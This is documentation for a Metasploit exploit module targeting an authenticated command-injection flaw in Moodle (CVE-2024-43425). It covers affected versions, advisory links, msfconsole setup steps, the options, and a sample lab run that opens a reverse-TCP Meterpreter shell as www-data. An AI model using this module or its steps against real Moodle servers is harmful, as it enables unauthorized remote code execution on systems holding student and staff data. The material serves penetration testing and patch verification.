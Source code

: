 ## Vulnerable Application

This module exploits a command injection vulnerability in Moodle (CVE-2024-43425) to obtain remote code execution.
By default, the application will run in the context of www-data, so only a limited shell can be obtained.

Valid credentials are required to exploit this vulnerability. Moreover, the user must be authorized to either add a new or modify an
existing quiz, in order to reach the vulnerable function and trigger the bug. User roles that fall into this category include
`Teacher` and `Administrator`, but might differ depending on the specific deployment and configuration.

Affected versions include:
* 4.4 to 4.4.1
* 4.3 to 4.3.5
* 4.2 to 4.2.8
* 4.1 to 4.1.11

Moodle published an advisory [here](https://moodle.org/mod/forum/discuss.php?d=461193).

The original advisory is available [here](https://www.redteam-pentesting.de/en/advisories/rt-sa-2024-009/), and a more detailed writeup is
available [here](https://blog.redteam-pentesting.de/2024/moodle-rce/).

## Testing

Legacy releases from Moodle can be obtained from [here](https://download.moodle.org/releases/legacy/).
An installation guide is available [here](https://docs.moodle.org/404/en/Step-by-step_Installation_Guide_for_Ubuntu).

**Successfully tested on**

- Moodle v4.4.1 on Ubuntu 20.04 LTS

## Verification Steps

1. Deploy Moodle
2. Start `msfconsole`
3. `use exploit/linux/http/moodle_rce`
4. `set USERNAME <USER>`
5. `set PASSWORD <PASSWORD>`
6. `set CMID <ID>`
7. `set COURSEID <ID>`
8. `set RHOSTS <IP>`
9. `set LHOST <IP>`
10. `exploit`

## Options

### USERNAME
The username to authenticate with in Moodle.

### PASSWORD
The password for the user.

### CMID
The course module ID. Can be retrieved from the URL when the "Add question" button is pressed within a quiz of a course
(e.g., IP>/moodle/mod/quiz/edit.php?cmid=4).

### COURSEID
The course ID. Can be retrieved from the URL when the course is selected (e.g., <IP>/moodle/course/view.php?id=3).

## Scenarios

Running the module against Moodle v4.4.1 should result in an output similar to the following:

```
msf > use exploit/linux/http/moodle_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/moodle_rce) > set USERNAME testuser
USERNAME => testuser
msf exploit(linux/http/moodle_rce) > set PASSWORD iusldbf843498fKJASD
PASSWORD => iusldbf843498fKJASD
msf exploit(linux/http/moodle_rce) > set CMID 2
CMID => 2
msf exploit(linux/http/moodle_rce) > set COURSEID 2
COURSEID => 2
msf exploit(linux/http/moodle_rce) > set RHOSTS 192.168.217.141
RHOSTS => 192.168.217.141
msf exploit(linux/http/moodle_rce) > set LHOST 192.168.217.128
LHOST => 192.168.217.128
msf auxiliary(exploit/linux/http/moodle_rce) > exploit 
[*] Started reverse TCP handler on 192.168.217.128:4444 
[*] Obtaining MoodleSession and logintoken...
[+] Server reachable.
[*] Authenticating as testuser...
[*] Successfully authenticated.
[*] Obtaining sesskey, courseContextId, and category...
[*] Injecting command...
[*] Sending stage (3045380 bytes) to 192.168.217.141
[*] Meterpreter session 1 opened (192.168.217.128:4444 -> 192.168.217.141:37152) at 2024-09-01 18:19:44 -0400
[-] Exploit aborted due to failure: unreachable: Failed to receive a reply from the server.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/moodle_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer     : 192.168.217.141
OS           : Ubuntu 24.04 (Linux 6.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
  
meterpreter > getuid 
Server username: www-data
```
